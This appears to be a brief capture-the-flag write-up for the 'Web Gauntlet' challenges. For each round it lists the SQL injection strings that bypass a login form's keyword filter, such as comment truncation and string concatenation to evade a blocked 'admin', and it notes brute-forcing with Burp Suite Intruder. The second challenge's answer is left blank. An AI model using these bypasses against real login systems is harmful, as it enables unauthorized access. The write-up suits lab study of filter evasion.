



# Web Gauntlet

Round 1: `admin' --` 

Filter: `or`

Round 2: `admin'/*` 

Filter: `or and like = --`

I used intruder option in Burpsuite to brute force the injections.

Round 3: `admin'/*`

Filter: `or and = like > < --`

Round 4: `ad'||'min'/*`

Filter: `or and = like > < -- admin`

Round 5: `ad'||'min'/*`

Filter: `or and = like > < -- union admin`

Possible answer: `ad'||'min';`

# Web Gauntlet 2

Answer: 

Filter: `or and true false union like = > < ; -- /* */ admin`